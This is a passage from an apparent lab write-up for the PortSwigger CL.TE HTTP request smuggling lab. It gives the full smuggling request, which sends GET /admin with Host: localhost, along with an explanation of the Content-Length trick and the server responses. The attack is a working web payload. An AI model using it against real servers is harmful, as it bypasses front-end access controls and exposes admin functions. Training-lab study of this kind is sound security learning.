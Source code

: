 Response:
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 50

{"error":"Duplicate header names are not allowed"}
```

Now the response is a "400 Bad Request" since two duplicate headers are not allowed. This because X-Ignore : X removes the Method of the next request that comes, by appending it. But then the Host of the next request will be as a new header, which means it's a duplicate header to the smuggled request.

Attack:
```http
POST / HTTP/1.1
Host: 0a57003e032e35ce81e67043008300bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

Now the attack request has been modified as in the smuggled request Content-Type and Content-Length has been added, and in the body we added a parameter x. This because by setting the Content-Length to three, the backend will append only one character from the next request, and thus there will not be duplicate headers.

Response:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=SxdPnEYUXFTSsx1pdujJ2MtDoZQr5D8X; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 3211

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability</h2>
```